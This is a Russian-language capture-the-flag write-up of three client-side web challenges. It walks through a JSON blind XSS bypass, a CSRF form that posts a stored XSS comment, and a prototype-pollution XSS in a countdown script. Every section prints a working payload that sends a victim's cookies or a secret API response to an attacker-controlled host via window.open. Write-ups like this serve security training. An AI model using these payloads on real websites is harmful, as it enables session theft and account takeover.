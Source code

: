 ## CLIENT SIDE WRITEUP

### 1. AI Coder V3

Зайдя на сайт, видим форму отправки запроса.
Сообщения отправляются POST запросом в формате application/json на /api/messages.
А в js скрипте увидим ссылку на /api/secret, который все еще доступен на сайте, но в нем проверяется пользователь, отправивший запрос.

Похоже, что в запросе json `<script>` фильтруется, и его применить не получается.
Поискав в интернете, я нашел пэйлоад для json blind xss, который выглядел следующим образом:
`#><img src = url>`

Подставив в качестве url сервер принимающий запросы, запрос сработал.
Внедрим js код, исполняющийся при ошибке, и получим флаг:

```
#><img src = x onerror="var req = new XMLHttpRequest();req.open('GET', '/api/secret');req.send();req.onload=function(){window.open('http://myip:9001/?flag='+req.responseText);};">
```

`deteact{f6227606ad71f45d47112d3e5fabf15d}`

### 2. The Developer's blog

При изучении сайта, в комментариях к постам из dev blog можно найти xss, но написанные комментарии сохраняются
в cookie и недоступны другим пользователям. Чтобы опубликовать комментарий, необходимо отправить POST запрос на заданный адрес поста.

На сайте можно оставить feedback, передав ссылку на какую-то часть сайта, благо Сергей не проверяет куда ведет ссылка, и просто тыкает на нее, поэтому мы можем туда передать что угодно.

Можно украсть cookie Сергея, заставив его опубликовать комментарий с помощью csrf, а комментарий будет содержать в себе xss, который отправит нам cookie.

```
<form id="cookie" method="POST" action="http://79.143.25.24:1338/post/1">
    <input type="text" name="name" value="Sergey">
    <input type="text" name="text" value="<script>window.open('http://myip:9001/?flag='+document.cookie)</script>">
<form>
<script>
    document.getElementById('cookie').submit();
</script>
```

Передав в feedback ссылку на html страницу сверху, получим флаг

```
Request Details  
GET	https://myip/?flag=deteact{5dbc68e9f2c722747e9bb2aa7b33e658}
Host	79.143.25.24
```
`deteact{5dbc68e9f2c722747e9bb2aa7b33e658}`



### 3. Clean Work

Изучая сайт увидим, что в форму contact.php можно передать любую ссылку, которая будет открыта Сергеем.
А в coming-soon.html есть некий таймер, до какой-то новой активности.

Изучив код, можно понять, что он срабатывает, принимая в себя дату открытия и интервал, с которым он обновляется, но обойдя таймер получаем, что event еще не доступен.

![](assets/date.jpg)

Изучив код, видим что наш ввод (параметры) парсятся с помощью JSON.parse, и после объединяются с классом settings с помощью extend.

```
$(document).ready(function() {
var search = location.search.substring(1);
var params = JSON.parse('{"' + decodeURI(search).replace(/&/g, '","').replace(/=/g,'":"') + '"}');
$(".countdown").countdown(params);
});
```
Так как started закомменчено, event никогда не начнется, но можно добавить эту переменную с помощью Prototype Pollution

```
unknown_event = {
      'body': "Welcome to...",
      'statistics': 'on',
      'utm_token': 'Qi1eEfA3osd29Z8dj'
      //'started': false,
      //'name': ''
    };

    //array of custom settings
    var settings = {
      'date': '8 december 2023 12:00:00',
      'interval': 1000
    };

    $.extend(true, settings, options);
  ```

Поле $name выводится на экран не фильтруясь, а значит мы можем эксплуатрировать в нем xss.

Получаем следующий payload, открыв который, срабатывает xss, и на вебхук делается запрос, содержащий cookie.

 `
 http://45.131.97.54:48081/coming-soon.html?__proto__":{"name":"hello<script>window.open('http://myip:45333?'+document.cookie)</script>","started":"true"},"date":8,"text"="
`

Передадим этот пэйлоад в contact.php получим флаг.

`deteact{c2bebfbe20ecc889657caa287e20d28f}`
